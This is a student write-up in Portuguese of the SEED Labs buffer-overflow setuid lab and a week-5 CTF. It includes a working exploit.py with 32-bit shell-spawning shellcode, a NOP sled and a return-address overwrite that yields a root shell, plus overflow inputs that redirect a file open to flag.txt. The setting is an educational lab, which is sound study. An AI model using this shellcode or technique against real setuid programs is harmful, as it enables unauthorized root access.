




# SEED Labs - Buffer Overflow Setuid Lab

## Task 1

```bash
[10/10/22]seed@VM:~/.../shellcode$ a32.out
$ id -u                                                                                                          
1000
```
```bash
[10/10/22]seed@VM:~/.../shellcode$ sudo chown root a32.out
[10/10/22]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out
[10/10/22]seed@VM:~/.../shellcode$ a32.out
# id -u                                                                                                          
0
```

## Task 2

```bash
[10/10/22]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
[10/10/22]seed@VM:~/.../code$ sudo chown root stack
[10/10/22]seed@VM:~/.../code$ sudo chmod 4755 stack
[10/10/22]seed@VM:~/.../code$ ls -l
total 32
-rwxr-xr-x 1 seed seed   270 Oct  3 05:58 brute-force.sh
-rwxr-xr-x 1 seed seed   891 Oct  3 05:58 exploit.py
-rw-r--r-- 1 seed seed   965 Oct  3 05:58 Makefile
-rwsr-xr-x 1 root seed 15908 Oct 10 07:04 stack
-rw-r--r-- 1 seed seed  1132 Oct  3 05:58 stack.c
```

## Task 3

Usando o comando `p` do debugger `gdb` foi possível obter o endereço guardado no registo `ebp` e o endereço do `buffer`. Tendo em conta que o valor do `frame pointer` é 0xffffca98, o valor do `return address` será 0xffffca98 + 4. De modo a descobrir a `distância` entre o endereço base do buffer e o return address, calculou-se a distância entre o ebp e o buffer (0xffffca98 - 0xffffca2c): 108. Uma vez que, o return address está 4 bytes acima do ebp, a `distância` é 108 + 4 = 112.

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffca98
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca2c
gdb-peda$ p/d 0xffffca98 - 0xffffca2c
$3 = 108
gdb-peda$ quit
```

O conteúdo do `shellcode[]` (código malicioso) foi substituído pelo código shellcode 32-bit, cujo tamanho é 27 bytes. Uma vez que o tamanho do array é 517, o `start` deverá ser <= 490 (517 - 27). Neste caso, colocou-se o código malicioso no final do array (start = 490) e o restante é preenchido com 0x90 (NOP´s).
O valor de `ret` calculado acima é 0xffffca98 + 8, no entanto, tendo em conta a nota 2 do guião - "the frame pointer value obtained from gdb is different from that during the actual execution (without using gdb)(...)so the actual frame pointer value will be larger.". Sendo assim o valor de `ret` deverá ser > 0xffffca98 + 8. O valor usado foi 0xffffca98 + 200, foi obtido por tentativa e erro e a condição do resultado 0xffffca98 + nnn não conter nenhum byte a zero está garantida. 

 Figura 1: Estrutura do badfile

exploit.py
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca98 + 200           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Como se pode confirmar, depois de correr o programa `stack-L1` temos acesso a uma root shell - `euid=0(root)`

```sh
[10/16/22]seed@VM:~/.../code$ ./exploit.py 
[10/16/22]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                                                             
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker
```
# CTF - Week 5

# Task 1
Ao analisar o checksec, pudemos confirmar que a arquitetura do ficheiro é x86 (Arch), não existe um cannary a proteger o return address (Stack), a stack tem permisssão de execução (NX), e as posições do binário não estão randomizadas (PIE), por fim existem regiões de memória com permissões de leitura, escrita e execução (RWX), neste caso referindo-se à stack.

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

Pela analise do programa, verificamos que ele não verifica overflows, o ficheiro que é aberto é guardado numa array que está diretamente acima do buffer, sendo este buffer lido pelo input. A flag está guardada num ficheiro flag.txt. Assim só precisamos de dar input de uma string do género "aaaaaaaaaaaaaaaaaaaaflag.txt" (primeiros 20 caracteres são guardados no buffer (tamanho 20), e os seguintes são guardados no nome do ficheiro como não há verificação de overflow, sendo assim aberto o ficheiro flag.txt que nos dá acesso a flag).

 

# Task 2

Checksec dá nos a mesma informação que na tarefa anterior. No entanto o programa tem outro mecanismo de defesa, isto é, existe outro buffer entre o buffer a que damos overflow, e o que pretendemos mudar. Este outro buffer é verificado, sendo só aberto o ficheiro depois deste ser verificado.

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

Se não mudarmos o input, o valor que é comparado ao 0xfefc2223 é 0xdeadbeef (valor inicial do val). Assim, no exploit-example.py temos de mudar o input, com base no mesmo raciocínio da tarefa anterior, só que desta vez temos de escrever algo entre os 20 caracteres guardados no buffer e flag.txt, que irão substituir o que está em val. Assim, uma solução como a da figura abaixo será possivel.

 

Ao escrever "aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt", estamos a guardar no buffer os primeiros 20 caracteres, 0xfefc2223 em val (tornando então a condição no if verdadeira), e flag.txt no meme_file. Assim, abrimos o flag.txt e obtemos acesso a flag.

 
